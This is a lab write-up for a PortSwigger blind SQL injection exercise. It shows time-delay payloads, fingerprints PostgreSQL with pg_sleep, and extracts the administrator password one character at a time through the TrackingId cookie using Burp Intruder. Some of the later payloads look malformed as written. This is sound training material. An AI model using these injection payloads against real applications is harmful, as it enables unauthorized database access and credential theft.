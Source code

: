 ## Blind SQL injection with time delays and information retrieval

**Title:** Blind SQL injection with time delays and information retrieval. [Go](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

**Description:** This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie. The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information. The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the `administrator` user.

## Preface

If the application catches database errors when the SQL query is executed and handles them gracefully, there won't be any difference in the application's response. This means the previous technique for inducing conditional errors will not work. 

In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays depending on whether an injected condition is true or false. As SQL queries are normally processed synchronously by the application, delaying the execution of a SQL query also delays the HTTP response. This allows you to determine the truth of the injected condition based on the time taken to receive the HTTP response. 

The techniques for triggering a time delay are specific to the type of database being used. For example, on Microsoft SQL Server, you can use the following to test a condition and trigger a delay depending on whether the expression is true: `'; IF (1=2) WAITFOR DELAY '0:0:10'--` `'; IF (1=1) WAITFOR DELAY '0:0:10'--`

The first of these inputs does not trigger a delay, because the condition `1=2` is false. The second input triggers a delay of 10 seconds, because the condition `1=1` is true.

Using this technique, we can retrieve data by testing one character at a time: `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`


## Methodology

### Finding the vulnerable parameter
Initially, our foremost objective is to identify a potential vulnerability within the application's parameters that allows for the execution of SQL queries. In the context of this shopping application, we are particularly interested in the `TrackingId` cookie parameter , where the backend logic is designed to query the submitted data.

### My thought
At first we have to determine which database is using the application. For this we have to use all these payloads:
Database | Payload
-------- | -----
Oracle | dbms_pipe.receive_message(('a'),10)
Microsoft | WAITFOR DELAY '0:0:10'
PostgreSQL | SELECT pg_sleep(10)
MySQL	| SELECT SLEEP(10)

We tried all these payloads & figured out that this web application is using PostgreSQL. Our payload is `TrackingId=LsT'||pg_sleep(10)--`.

Now change it to: `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. Verify that the condition is true, confirming that there is a user called `administrator`.

![poc_admin_user.png](../images/admin_user.png)

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:
`TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`. After iterating we concluded that the password is 20 characters long.

![poc_password_length.png](../images/password_length.png)

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu. Here, we use cluster bomb option with two payload position. `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`

To be able to tell when the correct character was submitted, you'll need to monitor the time taken for the application to respond to each request. For this process to be as reliable as possible, you need to configure the Intruder attack to issue requests in a single thread. To do this, go to the "Resource pool" tab and add the attack to a resource pool with the "Maximum concurrent requests" set to 1.

Burp Intruder monitors the time taken for the application's response to be received, but by default it does not show this information. To see it, go to the "Columns" menu, and check the box for "Response received".

![poc_final.png](../images/poc_final.png)

**Summary:** 
1. Fingerprinting database with `TrackingId=LsT'||pg_sleep(10)--`

2. `administrator` user confirmation with `TrackingId=LsT' SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

3. Password length determination `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND LENGTH(password)>20) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.

4. Brute forcing password with `TrackingId=LsT' SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,$payload01$,1)='$payload02$') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--`.


<img src="../images/poc_final.png"  alt="poc_final.png"  width="720"  height="1080">
